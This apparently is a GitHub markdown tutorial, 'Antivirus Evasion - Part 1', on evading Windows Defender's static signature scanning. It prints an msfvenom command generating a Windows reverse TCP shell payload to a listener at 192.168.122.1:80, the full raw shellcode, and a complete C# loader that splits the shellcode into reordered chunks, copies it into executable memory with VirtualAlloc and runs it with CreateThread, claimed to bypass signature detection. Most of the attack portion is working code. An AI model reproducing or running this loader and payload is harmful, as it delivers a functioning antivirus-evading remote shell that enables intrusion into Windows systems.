 # Antivirus Evasion - Part 1

Antivirus Software uses couple of techniques for code detection namely:

- Signature Static Scanning
- Behaiour Monitoring
- Run-time analysis
- AI detection and many other tricks.

## Bypassing Signature Static Scanning

We can change some byte to bypass static scanning. Original idea was showed by [ired teams](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change) but this, as stated by them, this trick soon became obselete since windows does detect the shellcode statically.

#### Steps

- Generate msf shellcode using normal procedure.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=80 -f csharp
```
Shellcode : 
```text
byte[] buf = new byte[324] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,
0x77,0x26,0x07,0xff,0xd5,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,
0x29,0x80,0x6b,0x00,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,
0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x05,0x68,0xc0,0xa8,0x7a,0x01,0x68,
0x02,0x00,0x00,0x50,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,
0xff,0xd5,0x85,0xc0,0x74,0x0c,0xff,0x4e,0x08,0x75,0xec,0x68,0xf0,0xb5,0xa2,
0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x00,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,
0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x01,0x01,0x8d,0x44,
0x24,0x10,0xc6,0x00,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,
0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,
0x30,0x68,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,
0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5 };
```
- Performed various changes to shellcode to avoid static shellcode detection. Althought the below code wont pass run time analysis of defender but it does bypass latest static based signature detection. Again, I could have used something else but main purpose was to code stuff to lean c# and windows also :)

Code:
```cs
using System;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(UInt32 lpAddress, UInt32 dWsize, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dWsize, IntPtr lpStartAddress, IntPtr lpParameter, UInt32 dwCreationFlags, IntPtr lpThradId);

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliSeconds);

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        static void Main(string[] args)
        {
            byte[] buf = new byte[] {0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
                0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,
                0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,
                0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,
                0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
                0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,
                0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff};

            byte[] buff5 = new byte[] {
                0x54,0x68,0x4c,0x77,0x26,0x07,0xff,0xd5,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,
                0x80,0x6b,0x00,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,
                0xd5,0x97,0x6a,0x05,0x68,0xc0,0xa8,0x7a,0x01,0x68,0x02,0x00,0x00,0x50,0x89,0xe6,0x6a,0x10,0x56 };
            
            byte[] buff4 = new byte[] { 0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x00,0x89,0xe3,0x57,0x57,
                0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x01,0x01,0x8d,0x44,0x24,
                0x10,0xc6,0x00,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,
                0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,
                0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,
                0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x53,0xff,0xd5 };

            byte[] buff2 = new byte[] { 0x57, 0x68, 0x99, 0xa5, 0x74, 0x61, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0x0c, 0xff, 0x4e, 0x08, 0x75, 0xec, 0x68, 0xf0 };
            byte[] buff3 = new byte[] { 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x68, 0x33, 0x32, 0x00, 0x00, 0x68, 0x77, 0x73, 0x32, 0x5f };

            IntPtr tmp =IntPtr.Zero;

            IntPtr address = VirtualAlloc(0, 324, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(buf, 0, address, buf.Length);
            Marshal.Copy(buff3, 0, (IntPtr)((UInt32)address+buf.Length*sizeof(byte)), buff3.Length);
            Marshal.Copy(buff5, 0,(IntPtr)((UInt32)address+((buf.Length + buff3.Length)*sizeof(byte))), buff5.Length);
            Marshal.Copy(buff2, 0,(IntPtr)((UInt32)address + ((buf.Length + buff3.Length+buff5.Length) * sizeof(byte))), buff2.Length);
            Marshal.Copy(buff4, 0, (IntPtr)((UInt32)address + ((buf.Length + buff3.Length + buff5.Length+buff2.Length) * sizeof(byte))), buff4.Length);

            IntPtr theadHandle = CreateThread(0, 0, address, tmp, 0, tmp);
            WaitForSingleObject(theadHandle, 0xFFFFFFFF);
        }
    }
}
```
(The above code is for 32 bit. It would show overflow if ran in 64 bit since its uses UInt32)

### Pre-Requistes

- Below are the structures of the functions imported by kernel32.dll taken directly from Microsoft.

> VirtualAlloc
```
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```
> CreateThread
```
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```
> WaitForSingleObject
```
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```
- For conversion for unmanaged data type to managed data type this the below image
[image](../images/unmanaged_managed.png)

### Reference

[Ired Team](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change)
